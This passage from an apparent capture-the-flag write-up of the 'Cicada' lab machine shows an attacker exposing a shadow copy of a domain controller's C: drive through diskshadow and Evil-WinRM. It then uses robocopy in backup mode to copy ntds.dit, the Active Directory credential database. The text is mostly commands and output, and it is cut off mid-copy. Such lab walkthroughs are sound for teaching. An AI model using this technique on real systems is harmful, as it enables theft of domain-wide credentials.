 ```

Querying all shadow copies with the shadow copy set ID {6747b0e5-a9d3-4b68-96e5-28574708abad}
        * Shadow copy ID = {10b9bb82-275d-4a14-b0fe-727209b03567}               %cdrive%
                - Shadow copy set: {6747b0e5-a9d3-4b68-96e5-28574708abad}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]
                - Creation time: 9/27/2024 1:07:28 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: CICADA-DC.cicada.htb
                - Service machine: CICADA-DC.cicada.htb
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {10b9bb82-275d-4a14-b0fe-727209b03567}
The shadow copy was successfully exposed as E:\.
-> end backup
->

```

It seems to work. `E:\` looks like a backup of `C:\`:

```
*Evil-WinRM* PS C:\> ls E:

    Directory: E:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/22/2024  11:45 AM                PerfLogs
d-r---         8/29/2024  12:32 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----         3/14/2024   5:21 AM                Shares
d-r---         8/26/2024   1:11 PM                Users
d-----         8/29/2024   3:54 PM                Windows

```

I still don’t have access to copy files from this drive through. I’ll have to use `robocopy` to do it:

```
*Evil-WinRM* PS C:\programdata> robocopy /b E:\Windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, September 27, 2024 1:07:57 AM
   Source : E:\Windows\ntds\
     Dest : C:\programdata\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
------------------------------------------------------------------------------

                           1    E:\Windows\ntds\
            New File              16.0 m        ntds.dit
  0.0%
  0.3%
  0.7%
  1.1%
```